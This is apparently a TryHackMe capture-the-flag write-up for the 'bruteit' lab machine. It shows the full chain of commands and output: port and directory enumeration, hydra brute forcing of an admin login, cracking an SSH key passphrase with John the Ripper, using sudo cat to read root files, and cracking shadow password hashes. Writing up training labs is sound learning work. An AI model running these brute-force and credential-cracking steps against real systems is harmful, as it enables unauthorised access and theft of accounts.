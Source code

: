 ip address: 10.10.241.45

## NMAP ENUMERATION:
```r
nmap -sV -A -sC 10.10.241.45 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 08:24 EST
Nmap scan report for 10.10.241.45
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/15%OT=22%CT=1%CU=38397%PV=Y%DS=2%DC=T%G=Y%TM=65CE
OS:10B0%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=FA%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST1
OS:1NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4
OS:B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M5
OS:08NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   111.53 ms 10.9.0.1
2   118.25 ms 10.10.241.45

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

``Discovered two port:``
ssh on Port 22
http on port 80, running on Apache httpd 2.4.29

``Whatweb:``
```r
whatweb http://10.10.241.45      
http://10.10.241.45 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.241.45], Title[Apache2 Ubuntu Default Page: It works]
```

## Gobuster subdirectory enumeration:
```r
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.241.45
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.241.45
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.241.45/admin/]
Progress: 20747 / 220561 (9.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 20777 / 220561 (9.42%)
===============================================================
Finished
===============================================================
```

```r
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="styles.css">
    <title>Admin Login Page</title>
</head>
<body>
    <div class="main">
        <form action="" method="POST">
            <h1>LOGIN</h1>

            
            <p>Username or password invalid</p>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    </div>

    <!-- Hey john, if you do not remember, the username is admin -->
</body>
</html>
```
In the source-code, we discovered two name: ``John and admin``

## BruteForce Login using HYDRA
```r
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.222.244 http-post-form "/admin/:user=^USER^&pass=^PASS^&login:Username or password invalid"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-15 18:53:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.222.244:80/admin/:user=^USER^&pass=^PASS^&login:Username or password invalid
[80][http-post-form] host: 10.10.222.244   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-15 18:53:56
```
``Found``- admin:xavier

![[Pasted image 20240215190008.png]]
``Found:`` RSA private key

Save the RSA to a file called ``id_rsa`` and change permission: ``chmod 400 id_rsa``
Let use that private key to log in as ``John``

```r
ssh -i id_rsa john@10.10.222.244
The authenticity of host '10.10.222.244 (10.10.222.244)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.244' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```
Oh wow, a passphrase is needed: Let us brute force the passphrase using ``ssh2john``

- Locate ``ssh2john``
- Use ssh2john to convert the id_rsa file to a file format used by ``John The Ripper``
- Use John to bruteforce the ``id_rsa.hash`` to reveal the passphrase
```r
locate ssh2john.py     
/usr/share/john/ssh2john.py
➜  TryHackMe python ssh2john.py id_rsa > id_rsa.hash
python: can't open file 'ssh2john.py': [Errno 2] No such file or directory
➜  TryHackMe python3 ssh2john.py id_rsa > id_rsa.hash
python3: can't open file '/root/TryHackMe/ssh2john.py': [Errno 2] No such file or directory
➜  TryHackMe python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
➜  TryHackMe john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2024-02-15 19:12) 14.28g/s 1037Kp/s 1037Kc/s 1037KC/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
``Found: passphrase:`` rockinroll

Now we found the passphrase, let login in again
``ssh -i id_rsa john@10.10.222.244``
![[Pasted image 20240215192023.png]]

```r
john@bruteit:~$ ls -la
total 40
drwxr-xr-x 5 john john 4096 Sep 30  2020 .
drwxr-xr-x 4 root root 4096 Aug 28  2020 ..
-rw------- 1 john john  394 Sep 30  2020 .bash_history
-rw-r--r-- 1 john john  220 Aug 16  2020 .bash_logout
-rw-r--r-- 1 john john 3771 Aug 16  2020 .bashrc
drwx------ 2 john john 4096 Aug 16  2020 .cache
drwx------ 3 john john 4096 Aug 16  2020 .gnupg
-rw-r--r-- 1 john john  807 Aug 16  2020 .profile
drwx------ 2 john john 4096 Aug 16  2020 .ssh
-rw-r--r-- 1 john john    0 Aug 16  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root root   33 Aug 16  2020 user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```
Found the user.txt file

## Privilege Escalation:
Let use ``sudo -l`` to see whether john user can run the sudo command

```r
John@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
The john is allow to be root in the ``/bin/cat ``folder

so let's try so few commands
```r
LFILE=/root/root.txt
john@bruteit:~$ sudo /bin/cat "$LFILE"
THM{pr1v1l3g3_3sc4l4t10n}
```
We were able to save a path to the root folder and read the root.txt file using ``sudo /bin/cat "file-name"``

To get the root password
we save both the ``passwd`` file and ``shadow`` file and use the unshadow command to output the two files into ``password.txt``

```r      
➜  nano passwd           
➜  nano shadow           
➜  unshadow passwd shadow > password.txt
```
Then use ``John The Ripper`` to brute-force the root user account

```r
john --wordlist=/usr/share/wordlists/rockyou.txt password.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
1g 0:00:01:03 0.65% (ETA: 22:22:46) 0.01567g/s 1733p/s 3474c/s 3474C/s munster1..liljess
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
``Root password``: football
